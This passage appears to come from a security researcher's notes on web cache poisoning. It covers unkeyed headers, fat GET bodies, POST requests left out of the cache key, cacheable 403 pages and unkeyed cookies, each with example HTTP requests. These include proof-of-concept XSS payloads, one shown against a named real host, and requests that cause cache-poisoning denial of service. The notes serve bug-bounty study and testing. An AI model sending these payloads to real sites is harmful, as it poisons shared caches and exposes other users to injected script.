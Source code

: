 		- **==x-forwarded-SSL==**: overwrite certain pages with a response saying 'Contradictory scheme headers'.
		- **==Transfer-Encoding==**: to overwrite arbitrary pages.
	- **Method Exploitation**:
		- **==Fat GET==**: Check for websites that uses `GET` request with bodies referred to as **fat GET** request, and check if the you can alter the response with it. In simple words: If the application lets users pass parameters in the body of `GET` requests, but does not include them in the cache key and if you can alter the response with the unkeyed body in any manner then you have a **fat GET CP** issue.
			```
			GET /js/geolocate.js?callback=setCountryCookie HTTP/2
			Host: redacted.com

			callback=alert(1)
			```
		- **==POST request CP==**: Another way to hide parameters from the cache key is simply to send a POST request; certain peculiar systems don't bother including the request method in the cache key:
			```
			POST /view/o2o/shop HTTP/1.1  
			Host: alijk.m.taobao.com  
			  
			_wvUserWkWebView=a</script><svg onload='alert%26lpar;1%26rpar;'/data-  
	  
			HTTP/1.1 200 OK  
			…  
			"_wvUseWKWebView":"a</script><svg onload='alert&lpar;1&rpar;'/data-"},
			```
			```
			GET /view/o2o/shop HTTP/1.1  
			Host: alijk.m.taobao.com  
	  
			HTTP/1.1 200 OK  
			…  
			"_wvUseWKWebView":"a</script><svg onload='alert&lpar;1&rpar;'/data-"},
			```
			
			Aaron Costello independently discovered this technique around the same time as me - I recommend checking out [his writeup](https://enumerated.wordpress.com/2020/08/05/the-case-of-the-missing-cache-keys/) on the topic for more examples.
	- **User Agent Rules Exploitation**:
		- Due to the high amount of traffic tools like **FFUF** or **Nuclei** generate, some developers decided to block requests matching their user-agents. Ironically, these tweaks can introduce unwanted cache poisoning DoS opportunities if the `403 Forbidden` page is cacheable.
			```
			GET /index.html HTTP/1.1
			Host: redacted.com
			User-Agent: FFUF

			HTTP/1.1 403 Forbidden
			X-Check-Cacheable: YES
			```
		- `User-Agent` using the venerable ==Internet Explorer 9== can trigger the cached page with a 'Please update your browser' response.
	- **Cookie Header Values Exploitation**: 
		- **==Unkeyed Lang Pref==**: If a cookie indicates the user's preferred language, which is then used to load the corresponding version of the page, if it is unkeyed then it can be used to poison the cache that serve the pages in different language. For example:
			```
			GET /blog/post.php?cb=1 HTTP/1.1 
			Host: innocent-website.com 
			Cookie: language=pl; 
			```
		- **==Unkeyed Input Reflection==**: If any value from the cookie is reflected in the response, it can be used to inject malicious payload like XSS, HTMLi etc. For example:
			```
			GET /?cb=1 HTTP/1.1 